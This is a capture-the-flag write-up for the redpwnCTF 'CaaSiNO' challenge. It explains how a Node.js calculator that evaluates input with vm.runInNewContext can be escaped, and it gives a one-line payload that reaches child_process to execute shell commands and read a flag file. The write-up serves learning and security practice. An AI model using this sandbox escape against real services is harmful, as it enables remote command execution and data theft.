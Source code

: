```yaml
---
title: "redpwnCTF: CaaSiNO"
categories:
  - redpwnCTF
tags:
  - redpwnCTF
---
```


*Who needs regex for sanitization when we have VMs?!?!*

*The flag is at /ctf/flag.txt*

*nc 2020.redpwnc.tf 31273*

---

For this challenge, we're given a small calculator.js script:

```
const vm = require('vm')
const readline = require('readline')

const rl = readline.createInterface({
  input: process.stdin,
  output: process.stdout
})

process.stdout.write('Welcome to my Calculator-as-a-Service (CaaS)!\n')
process.stdout.write('This calculator lets you use the full power of Javascript for\n')
process.stdout.write('your computations! Try `Math.log(Math.expm1(5) + 1)`\n')
process.stdout.write('Type q to exit.\n')
rl.prompt()
rl.addListener('line', (input) => {
  if (input === 'q') {
    process.exit(0)
  } else {
    try {
      const result = vm.runInNewContext(input)
      process.stdout.write(result + '\n')
    } catch {
      process.stdout.write('An error occurred.\n')
    }
    rl.prompt()
  }
})
```

We can see that it's calling vm.runInNewContext(input) to eval our input, which is a Node.js function. The PoC at the following URL works for this challenge:

https://snyk.io/vuln/SNYK-JS-MONGOEXPRESS-473215

We just need to modify it a bit:

Payload:
```
this.constructor.constructor("return process")().mainModule.require('child_process').execSync('cat /ctf/flag.txt')  
```

Inputting this payload gives us the flag!

**flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}**
